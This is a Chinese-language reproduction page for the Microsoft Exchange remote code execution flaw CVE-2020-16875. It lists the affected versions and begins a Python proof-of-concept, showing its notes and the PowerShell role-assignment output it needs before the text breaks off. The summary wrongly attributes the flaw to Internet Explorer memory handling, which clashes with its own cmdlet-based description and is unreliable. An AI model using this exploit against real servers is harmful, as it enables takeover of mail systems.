 （CVE-2020-16875）Microsoft Exchange 远程命令执行漏洞
=====================================================

一、漏洞简介
------------

有安全人员公开了Exchange
Server远程代码执行漏洞（CVE-2020-16875）的利用程序，此漏洞为微软在9月8日例行月度安全更新中披露；Microsoft
Exchange在Internet
Explorer处理内存中的对象时存在该漏洞。利用此漏洞需要具有以某个Exchange角色进行身份验证的用户权限。

攻击者可通过向受影响的Exchange服务器发送包含特殊的cmdlet参数的邮件来触发此漏洞，成功利用此漏洞的攻击者可在受影响的系统上以system权限执行任意代码。

### 利用条件

需要一个Exchange用户账号

二、漏洞影响
------------

Microsoft:Exchange\_server\_2016: cu16/cu17

Microsoft:Exchange\_server\_2019: cu5/cu6

三、复现过程
------------

需要一个Exchange用户账号。就能在Exchange服务器上执行任意命令。

### poc

> CVE-2020-16875.py

![1.png](resource/(CVE-2020-16875)MicrosoftExchange远程命令执行漏洞/media/rId26.png)

    #!/usr/bin/env python3
    """
    Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
    Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

    # Notes:

    The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

    [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"

    Name      AssignedRoles          RoleAssignments                  ManagedBy
    ----      -------------          ---------------                  ---------
    dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

    [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

    RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
    ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
    RoleAssignments             : {Data Loss Prevention-dlp users}
    Roles                       : {Data Loss Prevention}
    DisplayName                 :
    ExternalDirectoryObjectId   :
    Members                     : {exchangedemo.com/Users/Harry Mull}
    SamAccountName              : dlp users
    Description                 :
    RoleGroupType               : Standard
    LinkedGroup                 :
    Capabilities                : {}